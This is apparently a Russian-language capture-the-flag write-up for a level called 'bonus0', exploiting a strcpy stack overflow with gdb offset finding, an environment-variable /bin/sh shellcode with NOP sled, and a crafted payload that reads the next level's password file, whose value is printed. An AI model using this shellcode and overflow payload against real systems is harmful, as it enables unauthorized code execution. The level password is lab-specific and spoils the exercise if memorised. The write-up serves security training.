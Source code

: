 # Вызов strcpy, уязвимого к переполнению буфера

`=> 0x08048559 <+59>:    call   0x80483a0 <strcpy@plt>`

# Найдем, какое смещение программы segfault
```
gdb> pattern create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb> r
-
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
-
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
SIGSEGV
gdb> pattern search
[...]
Registers contain pattern buffer:
EBP+0 found at offset: 9
EIP+0 found at offset: 13
[...]
```
# Теперь нам нужно знать, соответствует ли смещение первой или второй строке
```
gdb> r
-
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
-
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
SIGSEGV
```
# Мы знаем, что смещение соответствует второй строке

# Экспортируем наш shellcode
```
$> export SHELLCODE=$(python -c "print '\x90'*64+'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")
```
# Пишем небольшую программу для поиска адресов переменных окружения
```
$> cat getenv.c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
printf("%s is at %p\n", argv[1], getenv(argv[1]));
}
```
```
$> gcc getenv.c -o getenv; ./getenv SHELLCODE
SHELLCODE is at 0xbffff94a
```

# Теперь проблема в том, как отправить данные на `read` два раза, используя один файл
# Нам просто нужно заполнить первый буфер
```
$> python -c "print 'A'*4095 + '\n' + 'B'*9 + '\x4a\xf9\xff\xbf' + 'C'*50" > /tmp/payload_bonus0
$> cat /tmp/payload_bonus0  - | ./bonus0
```
```
> cat /home/user/bonus1/.pass
```
>cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9

# ╮(￣_￣)╭